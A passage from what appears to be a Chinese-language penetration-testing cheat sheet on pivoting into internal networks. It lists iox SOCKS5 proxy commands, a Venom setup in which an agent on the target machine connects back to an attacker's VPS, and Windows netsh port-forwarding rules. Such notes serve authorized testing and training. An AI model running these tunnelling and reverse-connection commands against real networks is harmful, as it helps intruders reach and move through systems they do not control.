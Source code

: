         - 在目标机器上开启Socks5服务(目标机直接暴露在公网上)

            `./iox proxy -l 1080`

    - 内网 sock5 代理

        - 在攻击机上做转发

            `./iox proxy -l 8888 -l 1080`

        - 在目标机上执行如下命令,把目标机的8888端口对接起来建立链接

            `./iox proxy -r 1.1.1.1:8888`

            1.1.1.1 为攻击机的公网ip


### Venom

- 项目地址

    https://github.com/Dliv3/Venom

- 示例

    - vps 执行

        `./admin.exe -lport 6666`

    - 目标机执行

        `./agent.exe -rhost <vps-ip> -rport 6666`

    - vps 接收到连接后执行

        ```
        show
        goto 1
        socks 6667
        ```

    - 本机使用 proxifier 配置代理即可访问目标内网资源

        `<vps-ip>:6667`


## LOL转发技巧

### Windows

#### netsh

- 将本地的 51167 端口转发至 112.2.34.11:13522

    `netsh interface portproxy add v4tov4 listenport=51167 connectaddress=112.2.34.11 connectport=13522`

- 新建一个端口映射,将外网网卡1.1.1.1的1080端口和192.168.138.138的3389端口做个映射

    `netsh interface portproxy add v4tov4 listenaddress=1.1.1.1 listenport=1080 connectaddress=192.168.138.138 connectport=3389`
